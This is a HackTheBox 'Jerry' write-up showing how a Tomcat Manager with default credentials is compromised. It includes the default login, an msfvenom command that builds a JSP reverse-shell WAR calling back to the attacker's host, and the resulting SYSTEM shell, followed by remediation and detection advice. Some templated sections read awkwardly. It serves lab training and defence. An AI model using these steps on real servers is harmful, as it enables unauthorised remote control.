





# HackTheBox - Jerry

**OS:** Windows 

Jerry is a straightforward Windows box centred around a misconfigured Apache Tomcat instance. Default credentials on the Manager application lead directly to remote code execution via a malicious WAR file, granting a SYSTEM shell with no privilege escalation required.

| Field | Value |
|---|---|
| Platform | HTB |
| Target | `<target-ip>` |
| Initial Access | Default credentials on an exposed management interface |
| Privilege Escalation | Not required — initial exploit reached the objective |
| Final Access | Administrator / SYSTEM |

---

## Attack Path

1. Recon identified the exposed services and separated useful attack surface from noise.
2. The first break was Default credentials on an exposed management interface.
3. Post-exploitation enumeration exposed Not required — initial exploit reached the objective.
4. The final privileged context was reached and the required proof was captured.

---

## Recon

### Port Scan

```
# Nmap 7.98 scan initiated Wed May  6 23:18:27 2026 as: /usr/lib/nmap/nmap --privileged -n -sS -sV --version-light -Pn -p 8080 --stats-every 3m -oN /home/kali/HTB/jerry/output/scans/open_tcp_services.nmap <target-ip>
Nmap scan report for <target-ip>
Host is up (0.53s latency).

PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed May  6 23:18:35 2026 -- 1 IP address (1 host up) scanned in 7.82 seconds
```

The attack surface is minimal. A single open port running Apache Tomcat on 8080.

### Web Enumeration

Navigating to `http://<target-ip>:8080/` presents the default Tomcat landing page, clicking on "Manager App" prompts us to enter credentials.



Attempting the well-known default credentials `tomcat:s3cret` against the Manager login succeeds immediately.



---

## Exploitation

### WAR File Upload - Remote Code Execution

The Tomcat Manager exposes a WAR deployment feature that allows authenticated users to upload and deploy arbitrary web applications. This is the intended administration workflow, but with default credentials in place it becomes a trivial RCE vector.



A reverse shell WAR payload is generated with `msfvenom`:

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<vpn-ip> LPORT=443 -f war > v0idravl.war
Payload size: 1089 bytes
Final size of war file: 1089 bytes
```

After uploading through the Manager UI, a netcat listener is started on port 443 and the payload is triggered by visiting the deployed application's path:

```
http://<target-ip>:8080/v0idravl/
```

The JSP servlet executes and connects back, delivering a shell.



---

## Post-Exploitation

The shell lands as `NT AUTHORITY\SYSTEM` because Tomcat was running as a system service without user account restrictions, giving the highest privilege level on Windows. No privilege escalation step is required.

Both flags can be read directly:



---

## Summary


**Key takeaway:** The Tomcat Manager application should never be internet-accessible with default or weak credentials. In production, it should be restricted to localhost or removed entirely if remote deployment is not required.

---

## Root Cause

The demonstrated path worked because default credentials gave the attacker a bridge from reconnaissance to execution. The important pattern is the chain: Default credentials on an exposed management interface created a foothold, and Not required — initial exploit reached the objective converted that foothold into Administrator / SYSTEM.

## Impact

Successful exploitation reached Administrator / SYSTEM. That level of access allows command execution, proof or sensitive-file access, credential collection, and a realistic path to additional systems if the same credentials, services, or trust relationships exist elsewhere.

## Remediation

- Remove or harden the specific exposure used for initial access: Default credentials on an exposed management interface.
- Fix the privilege boundary that enabled escalation: Not required — initial exploit reached the objective.
- Rotate credentials observed or replayed during the chain and search for reuse on adjacent systems.
- Validate the fix by safely replaying the enumeration steps that originally exposed the weakness.

## Detection Opportunities

- Alert on exploit attempts or suspicious access patterns against the service that enabled initial access.
- Correlate successful authentication, new process creation, and privilege-boundary events after enumeration activity.
- Monitor for the specific escalation signal: Not required — initial exploit reached the objective.

## Lessons Learned

- The winning path was not just a vulnerable service; it was the connection between Default credentials on an exposed management interface and Not required — initial exploit reached the objective.
- Preserve the observations that explain why each pivot made sense, not only the commands that worked.
- Write remediation from the root cause of each step so the report reads like an operator narrative and a defender action plan.
